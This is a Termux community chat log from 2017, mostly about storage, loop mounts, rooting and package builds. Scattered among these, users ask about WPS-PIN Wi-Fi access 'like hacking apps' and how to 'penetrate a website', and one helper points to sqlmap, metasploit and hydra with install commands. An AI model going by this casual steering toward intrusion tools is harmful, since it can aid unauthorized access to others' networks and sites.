
2017-07-31 20:18:48	cottongin	I think there are some others too but it's very hit or miss currently

2017-07-31 20:19:35	cottongin	you might want to look into running sshd and using hterm/shell to ssh in locally

2017-07-31 20:20:31	cottongin	the chrome extension for the shell allows for window resizing and keyboard shortcut overriding

2017-07-31 20:21:42	sdrausty	Hello

2017-07-31 20:21:57	live_the_dream	?

2017-07-31 20:22:08	sdrausty	sshd rocks

2017-07-31 20:22:38	Evolution	yeah, I was hoping to avoid running sshd locally, as I'd have no other reason to do so.

2017-07-31 20:22:39	sdrausty	I am here requesting opinions please

2017-07-31 20:22:49	Evolution	sshing *to* other machines is great..

2017-07-31 20:23:03	sdrausty	locally rocks if you can spare the CPU

2017-07-31 20:23:12	sdrausty	WOE

2017-07-31 20:23:22	cottongin	yeah I get that but it's really the only way to overcome your issues currently

2017-07-31 20:23:22	sdrausty	WOE *WOW

2017-07-31 20:23:38	Evolution	it seems to be a decent chromebook. picked up an asus flip

2017-07-31 20:24:01	Evolution	the intel core m processor seems to be pretty decent to work with

2017-07-31 20:24:02	cottongin	the actual flip or c302?

2017-07-31 20:24:12	Evolution	c302ca or whatever

2017-07-31 20:24:15	cottongin	yeah

2017-07-31 20:24:19	cottongin	I have the same

2017-07-31 20:24:22	sdrausty	606 PACKAGES ON DEVICE https://sdrausty.github.io/pages/more

2017-07-31 20:24:56	cottongin	termux on it is great

2017-07-31 20:25:01	sdrausty	Here is a list of 660 packages that are available for arm computer architecture for Termux on Android as of 2017-07-31. 

2017-07-31 20:25:19	cottongin	not having to go into dev mode to get a bunch of Linux tools is very handy

2017-07-31 20:25:47	sdrausty	handybindeed

2017-07-31 20:26:09	sdrausty	b *"\ "

2017-07-31 20:28:31	BrainDamage	I'm so horribly annoyed by the lack of fuse in assdroid

2017-07-31 20:29:12	BrainDamage	the filesystem is actually the #1 feature of unix,and they gimped t

2017-07-31 20:29:33	live_the_dream	yeah security issues

2017-07-31 20:29:50	live_the_dream	so only available for rom makers

2017-07-31 20:29:51	Evolution	cottongin: out of curiosity, how do you store your work so that it's sync'd or available? do you do dev in /downloads or something?

2017-07-31 20:30:07	sdrausty	t?^_^(TT) BrainDamage:

2017-07-31 20:30:08	Evolution	trying to sort out the best place to keep source code I'm working on

2017-07-31 20:30:31	cottongin	yeah pretty much that

2017-07-31 20:30:59	BrainDamage	what bothers me is that everytime i search for what those "issues" are, i get infinite amount of unrelated results

2017-07-31 20:31:16	cottongin	and the sshfs extension to mount my remote stuff

2017-07-31 20:38:06	sdrausty	https://sdrausty.github.io/pages/more is automated to update once a day. 

2017-07-31 20:39:14	sdrausty	This webpage updates from within Termux in an Android smartphone. 

2017-07-31 21:49:53	sdrausty	$ /system/bin/mount -o loop=/sys/block/loop0 my_big_file mountDirectory512MBtoday/

2017-07-31 21:49:53	sdrausty	Usage: /system/bin/mount [-r] [-w] [-o options] [-t type] device directory

2017-07-31 21:50:38	sdrausty	https://github.com/termux/termux-packages/issues/1176

2017-07-31 21:50:53	sdrausty	Does Anyone Want to Have More Native Space on Device? #1176

2017-07-31 21:53:37	sdrausty	$ /system/bin/mount -o loop my_big_file jars/ mountDirectory512MBtoday/

2017-07-31 21:53:37	sdrausty	Usage: /system/bin/mount [-r] [-w] [-o options] [-t type] device directory

2017-07-31 22:33:08	gitter	(vishalbiswas) sdrausty: I don't think its possible

2017-07-31 23:06:03	sdrausty	vishalbiswas: VDM (Virtual Device Manager) 

2017-07-31 23:06:28	sdrausty	Maybe that is the package we are looking for.

2017-07-31 23:07:03	sdrausty	& mkfs.yaffs2

2017-07-31 23:10:22	sdrausty	`mount` is in not in util-linux, but that may be irrelevant since `mount` comes with Android and no doubt it knows how to mount a native Android filesystem. 

2017-07-31 23:11:46	sdrausty	This may need to be addressed on termux-app 

2017-07-31 23:11:53	sdrausty	too

2017-07-31 23:11:59	gitter	(vishalbiswas) and no doubt it requires root, all those other solutions you gave requires us to modify user permissions, which cannot be done without root

2017-07-31 23:12:16	zj1995	hello all

2017-07-31 23:12:40	zj1995	i have a feature suggestion for termux regarding handling of terminal bell

2017-07-31 23:13:20	sdrausty	If termux-app can have a slider like for storage gor loop = home run

2017-07-31 23:13:21	zj1995	is there a way to show an android notification when the app is backgrounded, or at least provide audible notification?

2017-07-31 23:13:27	sdrausty	gor *for

2017-07-31 23:15:06	gitter	(vishalbiswas) zj1995: should be possible, you can create an issue at termux-app repo so that the dev can track it

2017-07-31 23:16:21	sdrausty	@vishalbiswas How difficult would it be to ask users to grant permission for loop. Just like we do for storage at present.

2017-07-31 23:17:09	gitter	(vishalbiswas) does android even provide an abstraction for that? I don't think

2017-07-31 23:17:44	sdrausty	zj1995: https://www.google.com/url?sa=t&source=web&rct=j&url=https://github.com/termux/termux-app/issues/115&ved=0ahUKEwjr_PGtibXVAhUq04MKHUXVDnYQFggdMAA&usg=AFQjCNE55eC7RLL_ubk2wDXJYYfII-m0ug

2017-07-31 23:18:07	sdrausty	@vishalbiswas I think it does.

2017-07-31 23:18:37	sdrausty	https://github.com/termux/termux-app/issues/115

2017-07-31 23:19:02	sdrausty	Support for terminal bell as a notification #115

2017-07-31 23:20:49	gitter	(vishalbiswas) does anybody know what `__ELF_NATIVE_CLASS` is and what should its value be?

2017-07-31 23:21:40	sdrausty	I am considering upgrading my device with 4TB external SD card reader.

2017-07-31 23:23:09	gitter	(vishalbiswas) showoff :sparkles:

2017-07-31 23:24:28	sdrausty	This will cost with month of air time about $60 at https://www.boostmobile.com

2017-07-31 23:27:17	sdrausty	$70 = 512GB micro SD card at https://usadiscountwarehouse.com/shop/512gb-micro-sd-free-shipping-free-usb-adapter/ today!

2017-07-31 23:27:25	sdrausty	Free shipping!

2017-07-31 23:27:48	sdrausty	Free 64GB micro SD card!

2017-07-31 23:28:35	sdrausty	I wonder if it actualy works, but it might be completely legit...

2017-07-31 23:28:53	sdrausty	512 GB in my pocket...

2017-07-31 23:29:12	sdrausty	Infinite with OTG...

2017-07-31 23:29:18	gitter	(vishalbiswas) http://www.amazon.in/SanDisk-Extreme-512GB-UHS-1-Memory/dp/B00NP699ZI/ref=sr_1_1?ie=UTF8&qid=1501558101&sr=8-1&keywords=512gb+Micro+SD

2017-07-31 23:29:23	gitter	(vishalbiswas) $399

2017-07-31 23:29:49	gitter	(vishalbiswas) yours may be a gimmick, no brand or model details

2017-07-31 23:31:45	rods-tab3	too low to be true

2017-07-31 23:31:47	sdrausty	512gb Micro SD Card Class 10 + Free Bonus 64GB Micro SD Card fir $70 might be, but I CAN by 128GB for the sane price at the store.

2017-07-31 23:32:03	sdrausty	"Name Brand"

2017-07-31 23:33:46	sdrausty	rods-tab3: I think I will change the link at https://github.com/termux/termux-packages/issues/1176 to 128GB staples. Thank you.

2017-07-31 23:34:37	sdrausty	"Does Anyone Want to Have More Native Space on Device? #1176" Who would not want more of the goid stuff?

2017-07-31 23:35:00	sdrausty	goid *good

2017-07-31 23:35:25	sdrausty	Could be.. u hum.. gold

2017-07-31 23:38:23	sdrausty	vishalbiswas: Is this what we are looking for https://source.android.com/devices/

2017-07-31 23:39:40	sdrausty	I would like a little more feedback before opening an issue at termux-app regarding #1176

2017-07-31 23:39:57	sdrausty	abstractoin layer?

2017-07-31 23:40:13	sdrausty	abstractoin *abstraction

2017-07-31 23:40:20	rods-tab3	BEWARE  ripoff  https://www.yelp.com/biz/usa-discount-warehouse-cape-coral

2017-07-31 23:42:44	rods-tab3	if ''too good to be true'' it most certainly is   http://m.ripoffreport.com/reports/usadiscountwarehousecom/cape-coral-florida-33909/usadiscountwarehousecom-256gb-microsd-memory-card-is-a-fake-cape-coral-florida-1242830

2017-07-31 23:43:58	sdrausty	http://www.frys.com/product/8941013

2017-07-31 23:46:51	sdrausty	I am really glad we discussed this rods-tab3: @vishalbiswas

2017-07-31 23:47:46	sdrausty	256GB = $250

2017-07-31 23:47:56	sdrausty	USd

2017-07-31 23:48:26	sdrausty	Thank you

2017-07-31 23:48:59	sdrausty	Either way I want more native space. How sbout you?

2017-07-31 23:49:04	rods-tab3	that seems high;  used to be 64GB ~~  $16 USD

2017-07-31 23:49:21	sdrausty	That is because it is 256GB

2017-07-31 23:49:40	sdrausty	micro SD

2017-07-31 23:51:36	sdrausty	Cheapest 128GB micro SD @frys = $40

2017-07-31 23:59:06	gitter	(vishalbiswas) anybody here has fast internet and their android device handy?

2017-07-31 23:59:21	sdrausty	why?

2017-07-31 23:59:57	gitter	(vishalbiswas) I need som configure output from different arches on android

2017-08-01 00:00:06	sdrausty	aarch64

2017-08-01 00:00:39	gitter	(vishalbiswas) would you be willing?

2017-08-01 00:01:05	sdrausty	whatis it you need?

2017-08-01 00:01:15	gitter	(vishalbiswas) I can do arm and x86_64 but i686 still remains

2017-08-01 00:01:37	gitter	(vishalbiswas) download and extract https://people.freebsd.org/~sunpoet/sunpoet/mozjs-45.0.2.tar.bz2 (source code for spidermonkey)

2017-08-01 00:02:05	gitter	(vishalbiswas) then run `sh gen-config.sh aarch64 android`

2017-08-01 00:02:21	sdrausty	and then what? do not ask me to run it, please.

2017-08-01 00:02:56	gitter	(vishalbiswas) it generates config files needed for mongodb

2017-08-01 00:04:21	gitter	(vishalbiswas) anybody else can volunteer for aarch64 or i686?

2017-08-01 00:07:36	sdrausty	$ cd mozjs-45.0.2/

2017-08-01 00:07:36	sdrausty	$ sh gen-config.sh aarch64 android                                                                          sh: 0: Can't open gen-config.sh

2017-08-01 00:08:37	sdrausty	$ ls

2017-08-01 00:08:37	sdrausty	INSTALL  Makefile.in  build   dom   js      media   mfbt     moz.build  nsprpub  testing

2017-08-01 00:08:37	sdrausty	LICENSE  README       config  intl  layout  memory  modules  mozglue    python   toolkit

2017-08-01 00:09:12	gitter	(vishalbiswas) f*#k wrong file

2017-08-01 00:09:29	sdrausty	$ find -name gen-config.sh

2017-08-01 00:13:27	gitter	(Auxilus) @vishalbiswas i can do that

2017-08-01 00:13:35	gitter	(Auxilus) I'm on aarch64

2017-08-01 00:13:58	gitter	(vishalbiswas) don't do this, i messed up the filename

2017-08-01 00:14:08	gitter	(Auxilus) Kk

2017-08-01 00:14:09	gitter	(sdrausty) @Auxilus it's the wrong file

2017-08-01 00:14:25	gitter	(Auxilus) Okay, i stopped :p

2017-08-01 00:14:46	gitter	(Auxilus) I want to make script which will connect to wifi, but not using password, but with wps pin, sort of like what wifi hacking apps do

2017-08-01 00:14:46	gitter	(Auxilus) So, which language should I use?

2017-08-01 00:14:46	gitter	(Auxilus) Any idea?

2017-08-01 00:14:46	gitter	(Auxilus) And also imma run the script though termux

2017-08-01 00:15:13	gitter	(vishalbiswas) is there a termux-wifi?

2017-08-01 00:15:29	gitter	(Auxilus) No

2017-08-01 00:15:53	gitter	(Auxilus) There is `termux-wifi-connectioninfo & scaninfo`

2017-08-01 00:16:02	gitter	(vishalbiswas) I don't think you can actually connect to wifi without having it in termux-api

2017-08-01 00:16:19	gitter	(Auxilus) Can we get it in api?

2017-08-01 00:16:42	gitter	(Auxilus) Or is there any language which supports such operations?

2017-08-01 00:17:22	gitter	(vishalbiswas) all languages can support it if android would give us core access and not have us try to do it with a hand tied behind

2017-08-01 00:17:47	gitter	(Auxilus) Kk

2017-08-01 00:17:57	gitter	(vishalbiswas) that's where sdrausty's idea of #1176 fails

2017-08-01 00:18:38	gitter	(Auxilus) But with root is it possible?

2017-08-01 00:18:47	gitter	(vishalbiswas) no idea

2017-08-01 00:19:07	sdrausty	There is some wifi stuff in https://github.com/sdrausty/buildAPKs `ack wifi` will show you where the wifi APKs are.

2017-08-01 00:19:25	gitter	(Auxilus) I use an app `androdumpper `which looks like it has that kinda access

2017-08-01 00:19:27	gitter	(vishalbiswas) tried it before but it used to hang the wifi and had to restart

2017-08-01 00:19:40	sdrausty	com.example.android.wifidirect.discovery

2017-08-01 00:19:40	gitter	(vishalbiswas) i'm not talking about any of these programs

2017-08-01 00:21:47	sdrausty	com.marakana.android.wifiinfo

2017-08-01 00:22:06	gitter	(vishalbiswas) ```bash

2017-08-01 00:22:06	gitter	(vishalbiswas) git clone --depth 1 https://github.com/mongodb/mongo

2017-08-01 00:22:06	gitter	(vishalbiswas) cd mongo/src/third_party/mozjs-45

2017-08-01 00:22:06	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=598001eef5b3458e309cda5e]

2017-08-01 00:22:09	gitter	(Auxilus) Is termux repo down?

2017-08-01 00:22:15	gitter	(vishalbiswas) run this please

2017-08-01 00:22:18	gitter	(Auxilus) I cant apt update

2017-08-01 00:22:19	sdrausty	android.net.wifi.WifiManager

2017-08-01 00:22:31	gitter	(Auxilus) @vishalbiswas me?

2017-08-01 00:22:38	gitter	(vishalbiswas) yes

2017-08-01 00:22:44	gitter	(Auxilus) K wait

2017-08-01 00:22:47	sdrausty	$ au

2017-08-01 00:22:47	sdrausty	Hit:1 http://termux.net stable InRelease

2017-08-01 00:22:47	sdrausty	Reading package lists... Done

2017-08-01 00:22:47	sdrausty	Building dependency tree

2017-08-01 00:22:47	sdrausty	Reading state information... Done

2017-08-01 00:22:47	sdrausty	All packages are up to date.

2017-08-01 00:22:47	sdrausty	Reading package lists... Done

2017-08-01 00:22:47	sdrausty	Building dependency tree

2017-08-01 00:22:47	sdrausty	Reading state information... Done

2017-08-01 00:22:47	sdrausty	Calculating upgrade... Done

2017-08-01 00:22:47	sdrausty	0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.

2017-08-01 00:23:18	sdrausty	$ cat au

2017-08-01 00:23:36	sdrausty	apt update && apt upgrade

2017-08-01 00:24:32	sdrausty	@vishslbiswas where exactly does it fail?

2017-08-01 00:24:42	gitter	(vishalbiswas) ?

2017-08-01 00:24:44	gitter	(vishalbiswas) what?

2017-08-01 00:24:58	sdrausty	How to grant loop perms to termux-app

2017-08-01 00:25:27	sdrausty	(vishalbiswas) that's where sdrausty's idea of #1176 fails

2017-08-01 00:26:28	sdrausty	?? where does 1176 fail

2017-08-01 00:26:39	gitter	(vishalbiswas) there are no intents or android permissions for GRANT_LOOP_DEVICE or similar, android expects that you won't use it so only way is to use root.

2017-08-01 00:27:18	gitter	(vishalbiswas) unless there's magically a another way

2017-08-01 00:27:21	sdrausty	Do you know of any root I can build on device?

2017-08-01 00:27:24	sdrausty	then

2017-08-01 00:27:33	gitter	(vishalbiswas) ?

2017-08-01 00:27:42	gitter	(vishalbiswas) "any root"?

2017-08-01 00:27:44	sdrausty	build root on device

2017-08-01 00:28:03	gitter	(vishalbiswas) i mean root as in root access

2017-08-01 00:28:04	sdrausty	i want to know the source

2017-08-01 00:28:28	sdrausty	not some magical APK I know nothing about

2017-08-01 00:28:50	sdrausty	`su`

2017-08-01 00:28:55	sdrausty	`sudo`

2017-08-01 00:29:40	gitter	(vishalbiswas) I'm a noob in that respect. I don't actually know how these supersu apps get root access

2017-08-01 00:30:06	sdrausty	Termux, I can study its' source.

2017-08-01 00:30:31	gitter	(vishalbiswas) those commands that I gave require a huge amount of space. my emulator is out of memory all ready

2017-08-01 00:30:38	sdrausty	I tried one off Google Play a while ago.

2017-08-01 00:31:56	sdrausty	Turned my phone into a live brivk in the end. Story at https://plus.google.com/104092656004159577193/posts/4QGxJc3Ft3N

2017-08-01 00:32:20	sdrausty	brivk *brick

2017-08-01 00:33:01	sdrausty	Basically, I was attempting to unroot my device by factory resetting it at boot. That is when it morphed into a live brick! This marvelous machine had gotten stuck in a loop in setup. The screen was on when requested, asking the same setup questions over and over again. No flashlights https://github.com/sdrausty/buildAPKs/blob/master/scripts/build/buildFlashlights.sh No compasses

2017-08-01 00:33:01	sdrausty	https://github.com/sdrausty/buildAPKsClassifiedApps/tree/master/compasses No games https://github.com/sdrausty/buildAPKsClassifiedApps/tree/master/games nor anything else; No phone; No text; No SMS; Nothing; Nothing, but a live brick!

2017-08-01 00:33:40	gitter	(vishalbiswas) bro if your device shows the logo then its not bricked

2017-08-01 00:34:00	gitter	(vishalbiswas) just flash your stock rom

2017-08-01 00:34:11	gitter	(Auxilus) Whats bricked?

2017-08-01 00:34:18	gitter	(vishalbiswas) the state in which your device is, is called soft brick

2017-08-01 00:34:18	gitter	(Auxilus) Is it like rooting?

2017-08-01 00:34:22	gitter	(vishalbiswas) you can recover

2017-08-01 00:34:43	sdrausty	LS stylo

2017-08-01 00:34:58	sdrausty	LS *LG

2017-08-01 00:35:13	gitter	(vishalbiswas) I had multiple phones soft bricked and recovered them. Its easy

2017-08-01 00:35:22	gitter	(Auxilus) Yo

2017-08-01 00:35:30	gitter	(Auxilus) Whats bricking?

2017-08-01 00:35:44	sdrausty	There is hope then for that phone then. Thank you.

2017-08-01 00:35:50	gitter	(vishalbiswas) bricking is corrupting your firmware so that your device won't boot successfully anymore

2017-08-01 00:36:08	sdrausty	no boot = brick

2017-08-01 00:36:18	gitter	(Auxilus) @vishalbiswas its downloading firefox

2017-08-01 00:36:33	gitter	(vishalbiswas) soft brick is software brick which you can recover from by just instally stock firmware

2017-08-01 00:36:55	gitter	(vishalbiswas) hard brick is hardware brick which can only be recovered by your phone's company

2017-08-01 00:38:20	sdrausty	Gonna have to boot a real box with whirling fans and disks and what not. aargh

2017-08-01 00:39:44	sdrausty	Trying to fix that phone might have some good spinnoffs...

2017-08-01 00:44:28	sdrausty	@Auxilus I think it is called "bricking while rooting"..

2017-08-01 00:45:00	sdrausty	My got "soft bricked" while unrooting.

2017-08-01 00:45:11	sdrausty	My *Mine

2017-08-01 00:45:32	u0_a2124	is there a pkg to change the display? ie invert colors?

2017-08-01 00:45:33	gitter	(vishalbiswas) sdrausty: make sure you match the phone model exactly

2017-08-01 00:45:35	gitter	(vishalbiswas) https://forum.xda-developers.com/lg-g-stylo/development/rom-lg-g-stylo-h631-ms631-v10j-stock-t3211563

2017-08-01 00:45:40	gitter	(vishalbiswas) is this the one?

2017-08-01 00:46:30	gitter	(vishalbiswas) do you still have a custom recovery?

2017-08-01 00:46:40	gitter	(vishalbiswas) if yes then you can use this method

2017-08-01 00:47:34	u0_a2124	q

2017-08-01 00:49:14	gitter	(vishalbiswas) if you don't then use this method http://www.modifyandroid.com/stock-roms/lg/how-to-flash-stock-rom-for-lg-g-stylo/

2017-08-01 00:49:45	rods-tab3	u0   get termux-styling

2017-08-01 00:57:03	sdrausty	@vishalbiswas Thank you for the links.

2017-08-01 00:58:01	gitter	(vishalbiswas) just make sure they are the correct model since there has been multiple lg stylos

2017-08-01 00:58:17	sdrausty	ok

2017-08-01 01:15:59	gitter	(themastersunil) $ perl facebook.pl

2017-08-01 01:15:59	gitter	(themastersunil) Can't locate Net/SSLeay/Handle.pm in @INC (you may need to install the Net::SSLeay::Handle module) (@INC contains: /data/data/com.termux/files/usr/lib/perl5/site_perl/5.26.0/aarch64-android /data/data/com.termux/files/usr/lib/perl5/site_perl/5.26.0 /data/data/com.termux/files/usr/lib/perl5/5.26.0/aarch64-android /data/data/com.termux/files/usr/lib/perl5/5.26.0 .) at facebook.pl line 7.

2017-08-01 01:15:59	gitter	(themastersunil) BEGIN failed--compilation aborted at facebook.pl line 7.

2017-08-01 01:16:20	gitter	(themastersunil) please help, how to install Net/SSLeay in Termux???

2017-08-01 01:19:06	sdrausty	cpan install Net::SSLeay::Handle

2017-08-01 01:27:10	gitter	(themastersunil) Warning: You do not have write permission for Perl library directories.

2017-08-01 01:27:10	gitter	(themastersunil)

2017-08-01 01:27:10	gitter	(themastersunil) To install modules, you need to configure a local Perl library directory or

2017-08-01 01:27:10	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5980112e329651f46edd25cd]

2017-08-01 01:27:41	gitter	(themastersunil) what I'll choose??? sudo

2017-08-01 01:27:54	gitter	(vishalbiswas) @Auxilus shit, generating that configure requires more than 2.4 GB free space

2017-08-01 01:30:09	live_the_dream	themastersunil cpan

2017-08-01 01:38:50	sdrausty	$ /system/bin/toybox mount -o loop -t minux my_big_file mountDir

2017-08-01 01:38:50	sdrausty	mount: bad /etc/fstab: No such file or directory

2017-08-01 01:39:26	sdrausty	Will this work if there is chroot?

2017-08-01 01:40:20	gitter	(vishalbiswas) no idea

2017-08-01 02:10:24	live_the_dream	i don't think non root can moun6

2017-08-01 04:52:17	frumpylava	live_the_dream: hmm... I removed the line from the patch, but it doesn't really seem to change anything when it comes to resizing ncmpcpp, which is what I was actually trying to fix.

2017-08-01 05:26:12	u0_a197	k

2017-08-01 05:28:57	live_the_dream	it did for me...

2017-08-01 05:32:08	frumpylava	live_the_dream: Maybe I did it wrong?

2017-08-01 06:59:41	gitter	(Ashish882) Hi

2017-08-01 06:59:48	gitter	(Ashish882) Anyone

2017-08-01 07:39:10	live_the_dream	?

2017-08-01 07:57:10	benl90	Hello, I want to ask about java. Is java compiler available for termux? Thanks

2017-08-01 08:20:19	gitter	(Auxilus) How do I clear my command history?

2017-08-01 08:21:31	gitter	(Auxilus) @vishalbiswas the file is big, ill get to it once I get wifi

2017-08-01 09:50:22	mr1404_	is anyone there ?

2017-08-01 09:51:14	mr1404_	I am Vietnamese, I need some support about termux !!!

2017-08-01 09:51:48	mr1404_	Please hear from anyone please call 01265023870

2017-08-01 11:19:34	gitter	(vishalbiswas) @Auxilus `history -c`

2017-08-01 11:20:16	gitter	(vishalbiswas) bel90: jdk-9 is available but very unstatble

2017-08-01 11:38:11	mr1404	Is anyone there ?

2017-08-01 11:38:26	gitter	(vishalbiswas) yes

2017-08-01 11:38:42	mr1404	I am from vietnamese

2017-08-01 11:38:59	mr1404	Cho tôi hỏi làm sao để cài được các tool linux trên termuz

2017-08-01 11:39:24	mr1404	Let me ask how to install the linux tool on the termux

2017-08-01 11:39:50	mr1404	Pkg install sqlmap ???

2017-08-01 11:40:01	gitter	(vishalbiswas) `pip install sqlmap`

2017-08-01 11:40:16	gitter	(vishalbiswas) first you should have python installed `pkg install python`

2017-08-01 11:40:43	gitter	(vishalbiswas) sorry python2 is required

2017-08-01 11:40:59	gitter	(vishalbiswas) `pkg install python2; pip2 install sqlmap`

2017-08-01 11:42:20	mr1404	Can you download all the tools on linux?

2017-08-01 11:42:44	mr1404	You need to add a tutorial somewhere on the application

2017-08-01 11:43:10	gitter	(vishalbiswas) not all

2017-08-01 11:43:26	gitter	(vishalbiswas) people need to port them for android first

2017-08-01 11:43:59	mr1404	Can you install working environment and connect via vnc?

2017-08-01 11:44:26	gitter	(vishalbiswas) no gui, yet

2017-08-01 11:45:21	mr1404	I hope the next update will add many window functions to v

2017-08-01 11:45:39	gitter	(vishalbiswas) ?

2017-08-01 11:45:47	mr1404	You should add show directory too not knowing where I should ph

2017-08-01 11:46:31	gitter	(vishalbiswas) ph?

2017-08-01 11:46:46	mr1404	You need more features to open multiple work windows and display the location there

2017-08-01 11:47:01	mr1404	Sorry english level is not high :(

2017-08-01 11:47:08	gitter	(vishalbiswas) you can slide from left

2017-08-01 11:47:19	gitter	(vishalbiswas) there you can start new sessions

2017-08-01 11:48:18	mr1404	I can not

2017-08-01 11:48:45	mr1404	https://usercontent.irccloud-cdn.com/file/VDm0eMoZ/Screenshot_20170801-224830.png

2017-08-01 11:48:58	gitter	(vishalbiswas) slide from left to right

2017-08-01 11:49:00	mr1404	It is too empty

2017-08-01 11:49:06	gitter	(vishalbiswas) from edge of screen

2017-08-01 11:49:13	gitter	(vishalbiswas) from left edge

2017-08-01 11:50:27	mr1404	Oh my god

2017-08-01 11:50:43	mr1404	I do not know thank you very much> <

2017-08-01 11:51:07	gitter	(vishalbiswas) that was my reaction, too, when I found out

2017-08-01 11:52:13	mr1404	So funny> <

2017-08-01 11:52:36	mr1404	Where are you from ?

2017-08-01 11:52:57	gitter	(vishalbiswas) India

2017-08-01 11:54:21	mr1404	Vietnam

2017-08-01 11:54:31	mr1404	nice to know you

2017-08-01 11:55:14	gitter	(vishalbiswas) you, too. so what do you use termux for?

2017-08-01 11:56:24	mr1404	Learn maybe i like linux for windows

2017-08-01 11:56:38	mr1404	Mainly about network security

2017-08-01 11:56:58	mr1404	You know in Vietnam very few people use linux

2017-08-01 11:57:08	mr1404	Wanting to learn is also difficult

2017-08-01 11:57:35	gitter	(vishalbiswas) people use windows because they are familiar with it

2017-08-01 11:57:40	mr1404	I am 16 years old and very passionate about information technology

2017-08-01 11:58:11	mr1404	Very fond of ubuntu

2017-08-01 11:58:43	gitter	(vishalbiswas) ubuntu is what I started out with

2017-08-01 11:58:49	mr1404	It is my whole life every day to spend a lot of time learning how to use it

2017-08-01 11:59:23	mr1404	Ubuntu has a strong developer community

2017-08-01 11:59:32	mr1404	Pretty peace of mind about it

2017-08-01 11:59:53	gitter	(vishalbiswas) you tried arch linux yet?

2017-08-01 12:00:17	mr1404	How is it?

2017-08-01 12:00:42	gitter	(vishalbiswas) it has the best and largest user community and documentation

2017-08-01 12:00:54	gitter	(vishalbiswas) also I get all the updates within a day or two

2017-08-01 12:01:14	mr1404	Are there powerful testing tools?

2017-08-01 12:01:33	gitter	(vishalbiswas) in termux?

2017-08-01 12:02:11	mr1404	Arch linux

2017-08-01 12:02:32	gitter	(vishalbiswas) there's a thing called Archlinux User Repository (AUR)

2017-08-01 12:02:39	mr1404	I can install any tools on the termux

2017-08-01 12:02:57	gitter	(vishalbiswas) where people can submit scripts to build any program they want

2017-08-01 12:03:27	mr1404	Perfect open source

2017-08-01 12:03:46	mr1404	Like github right?

2017-08-01 12:04:05	gitter	(vishalbiswas) but they only submit scripts and patches to build packages

2017-08-01 12:04:20	gitter	(vishalbiswas) so if you can find a publicly available program

2017-08-01 12:04:41	gitter	(vishalbiswas) chances are i can install it in arch linux with just a single command

2017-08-01 12:05:27	mr1404	pretty good

2017-08-01 12:05:37	mr1404	There are grooves I will learn

2017-08-01 12:05:58	gitter	(vishalbiswas) in termux, you can install metasploit

2017-08-01 12:06:07	gitter	(vishalbiswas) hydra

2017-08-01 12:06:14	gitter	(vishalbiswas) that's about it, though

2017-08-01 12:06:58	sdrausty	ubuntu rocks, debian rocks much more https://www.debian.org

2017-08-01 12:07:25	mr1404	Is that

2017-08-01 12:07:29	gitter	(vishalbiswas) I'm an Archer, always

2017-08-01 12:08:14	sdrausty	Is it possible to grant permission for Termux to use loop devices? #375

2017-08-01 12:08:28	sdrausty	https://github.com/termux/termux-app/issues/375

2017-08-01 12:08:39	mr1404	Who knows how to penetrate a website?

2017-08-01 13:10:27	gitter	(Grimler91) @vishalbiswas I'm playing around with your cool x11 branch. I tried building tigervnc and after some minor fixes I got stuck at building libXdamage with the error

2017-08-01 13:10:27	gitter	(Grimler91) `Package xorg-macros was not found in the pkg-config search path.

2017-08-01 13:10:28	gitter	(Grimler91) Perhaps you should add the directory containing `xorg-macros.pc'

2017-08-01 13:10:28	gitter	(Grimler91) [full message: https://gitter.im/termux/termux?at=5980b604c101bc4e3adca6fc]

2017-08-01 13:23:10	gitter	(Grimler91) Sorry about the formatting

2017-08-01 13:43:43	gitter	(vishalbiswas) Build libxfixes

2017-08-01 13:44:03	gitter	(vishalbiswas) I haven't sorted out the dependencies

2017-08-01 14:06:10	sdrausty	vishalbiswas: https://github.com/termux/termux-app/issues/375 Has links to llopback access. Can we use this?

2017-08-01 14:06:25	sdrausty	http://apidocs.strongloop.com/loopback-sdk-android/api/index.html

2017-08-01 14:07:17	sdrausty	llopback *loopback

2017-08-01 14:12:28	sdrausty	https://www.google.com/search?q=intent+permission+android+"loopback"

2017-08-01 14:14:04	gitter	(Grimler91) @vishalbiswas ah, thanks!

2017-08-01 14:14:46	sdrausty	vishalbiswas: Is this what we want? com.strongloop.android.loopback.example

2017-08-01 14:21:49	sdrausty	to enable unlimited native space on device (via 0TG)

2017-08-01 14:25:38	sdrausty	& external micro SD

2017-08-01 14:26:08	sdrausty	via loopback mounts.

2017-08-01 15:31:39	sdrausty	native space *native Android space

2017-08-01 15:33:30	BrainDamage	"LoopBack is a highly-extensible, open-source Node.js framework"

2017-08-01 15:33:30	BrainDamage	wat

2017-08-01 15:33:36	BrainDamage	that's not the kernel loopback driver

2017-08-01 15:40:41	sdrausty	BrainBamagev Are there any to build apps with?

2017-08-01 15:49:13	sdrausty	loopback intents or permissions

2017-08-01 15:50:05	sdrausty	https://www.google.com/search?q=intent+permission+android+loopback

2017-08-01 15:50:57	sdrausty	qhttps://github.com/termux/termux-app/issues/375

2017-08-01 15:52:21	BrainDamage	just because 2 things are called loopback it doesn't meanthey are the same thing

2017-08-01 15:52:29	sdrausty	figures

2017-08-01 15:52:47	BrainDamage	you can't use mount in android as user

2017-08-01 15:53:48	sdrausty	We want the /dev/loop* from standard Linux.

2017-08-01 15:54:25	BrainDamage	i want fuse support, which would allow this and many more, but, android permission model forbids it

2017-08-01 15:54:37	sdrausty	Taht is what these issues are about #1176 termux-p

2017-08-01 15:54:55	sdrausty	ackages & #375 termux-app

2017-08-01 15:55:53	sdrausty	android permission model Where is the synopsis?

2017-08-01 15:56:52	sdrausty	Maybe we can make mount loop work in user dpace with psuedo devices?

2017-08-01 16:00:50	sdrausty	I am pretty sure this mount loopback model works on rooted phones. Can anyone with a rooted phone give this a try?

2017-08-01 16:01:40	sdrausty	(create file > format filesystem in file > mount filesystem in file via loop device)

2017-08-01 16:01:47	BrainDamage	it does work with root

2017-08-01 16:01:54	sdrausty	cool

2017-08-01 16:02:09	BrainDamage	I've used it to have a linux chroot for a while

2017-08-01 16:03:42	sdrausty	Braindammage: Can you check if

2017-08-01 16:03:45	sdrausty	/system/bin/toybox mount -o loop -t ext4 file mountDir

2017-08-01 16:04:07	sdrausty	works as nonroot?

2017-08-01 16:04:41	Evolution	has anyone had issues with rubygems building? was looking at some things like getting jekyll to run

2017-08-01 16:04:41	Evolution	but the gems required won't build properly

2017-08-01 16:04:50	sdrausty	I get "mount: bad /etc/fstab: No such file or directory"

2017-08-01 16:05:35	sdrausty	But this is not in chroot. Can you try if toybox will mount in chroot?

